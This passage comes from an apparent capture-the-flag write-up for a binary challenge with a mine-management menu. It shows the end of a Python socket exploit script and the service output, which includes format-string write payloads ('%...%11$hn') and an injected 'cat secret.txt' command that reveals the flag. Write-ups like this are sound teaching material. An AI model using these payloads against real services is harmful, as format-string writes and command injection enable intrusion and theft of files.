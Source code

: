 ```python
time.sleep(0.05)
print s.recv(512)
s.send('n\n')
time.sleep(0.05)
print s.recv(512)
s.send('n\n')
time.sleep(0.05)
print s.recv(512)
s.send('y\n')
time.sleep(0.05)
print s.recv(512)

time.sleep(0.05)
print s.recv(512)
	
s.close()
```

After running this exploit, it returns the flag:

```bash
3^JDo you want to delete?
Location: %34272c%11$hn
Type: AA..CCCC
y/n

n^JDo you want to delete?
Location: %2052c%11$hn
Type: AA..CCCC
y/n

n^JDo you want to delete?
Location: cat secret.txt 2&>1
Type: bleh
y/n

y^JFLAG{d1aM0nd>G0lD}
1) Add mine
2) Show mines
3) Delete mine
4) Show profit
5) Exit
id^J
```

The flag is `flag{d1aM0nd>G0lD}`. 
